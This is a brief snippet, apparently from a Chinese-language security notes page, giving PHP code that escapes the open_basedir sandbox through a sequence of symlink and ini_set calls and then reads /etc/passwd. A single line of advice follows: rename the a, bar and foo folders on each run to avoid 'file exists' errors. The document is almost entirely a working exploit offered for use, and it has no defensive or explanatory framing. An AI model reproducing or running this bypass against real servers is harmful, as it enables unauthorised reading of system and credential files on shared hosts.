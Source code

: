参考：
- twitter

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html','foo');
echo file_get_contents('bar/etc/passwd');
```

每次要更换文件夹a和bar和foo，不然会报错文件已存在。